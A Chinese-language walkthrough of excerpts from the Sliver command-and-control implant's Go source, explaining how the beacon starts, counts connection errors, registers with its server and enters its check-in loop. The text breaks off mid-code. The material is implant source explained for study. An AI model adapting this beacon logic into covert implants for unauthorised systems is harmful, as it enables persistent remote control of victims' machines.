
```Go
defer func() {
    err := beacon.Cleanup()
    if err != nil {
        // {{if .Config.Debug}}
        log.Printf("[beacon] cleanup failure %s", err)
        // {{end}}
    }
}()
```

启动Beacon,如果启动失败,在Debug模式下记录错误,增加连接错误计数器.如果连接错误次数超过最大允许次数,返回错误.

```Go
err = beacon.Start()
if err != nil {
    // {{if .Config.Debug}}
    log.Printf("Error starting beacon: %s", err)
    // {{end}}
    connectionErrors++
    if transports.GetMaxConnectionErrors() < connectionErrors {
        return err
    }
    return nil
}
connectionErrors = 0
```

注册 Beacon
```Go
// {{if .Config.Debug}}
log.Printf("Registering beacon with server")
// {{end}}

nextCheckin := time.Now().Add(beacon.Duration())
register := registerSliver()
register.ActiveC2 = beacon.ActiveC2
register.ProxyURL = beacon.ProxyURL

beacon.Send(wrapEnvelope(sliverpb.MsgBeaconRegister, &sliverpb.BeaconRegister{
    ID:          InstanceID,
    Interval:    beacon.Interval(),
    Jitter:      beacon.Jitter(),
    Register:    register,
    NextCheckin: int64(beacon.Duration().Seconds()),
}))

time.Sleep(time.Second)
beacon.Close()
```

计算下次检查时间nextCheckin,创建并初始化register对象.使用beacon.Send()发送Beacon注册信息,暂停1秒后关闭Beacon.


接下来就是进行Beacon主循环,来处理Beacon.

```Go
errors := make(chan error)
shortCircuit := make(chan struct{})

for {
    duration := beacon.Duration()
    nextCheckin = time.Now().Add(duration)
    go func() {
        oldInterval := beacon.Interval()
        err := beaconMain(beacon, nextCheckin)
        if err != nil {
            // {{if .Config.Debug}}
```